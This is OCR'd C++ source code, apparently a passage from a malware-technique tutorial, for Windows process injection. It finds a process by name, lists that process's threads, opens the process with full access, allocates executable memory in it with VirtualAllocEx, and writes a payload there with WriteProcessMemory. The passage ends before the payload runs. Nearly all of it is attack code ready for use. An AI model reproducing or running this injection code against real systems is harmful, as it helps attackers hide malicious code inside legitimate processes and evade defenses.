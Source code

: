 ```cpp

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

// find process threads by PID
DWORD getTids(DWORD pid, std::vector<DWORD>& tids) {
  HANDLE hSnapshot;
  THREADENTRY32 te;
  te.dwSize = sizeof(THREADENTRY32);

  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
  if (Thread32First(hSnapshot, &te)) {
	do {
	  if (pid == te.th32OwnerProcessID) {
	    tids.push_back(te.th32ThreadID);
	  }
	} while (Thread32Next(hSnapshot, &te));
  }

  CloseHandle(hSnapshot);
  return !tids.empty();
}

int main(int argc, char* argv[]) {
  DWORD pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE ht; // thread handle
  LPVOID rb; // remote buffer
  std::vector<DWORD> tids; // thread IDs

  pid = findMyProc(argv[1]);
  if (pid == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  } else {
    printf("PID = %d\n", pid);

    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)pid);

    if (ph == NULL) {
      printf("OpenProcess failed! exiting...\n");
      return -2;
    }

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, my_payload_len, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // write payload to memory buffer
    WriteProcessMemory(ph, rb, my_payload, my_payload_len, NULL);
```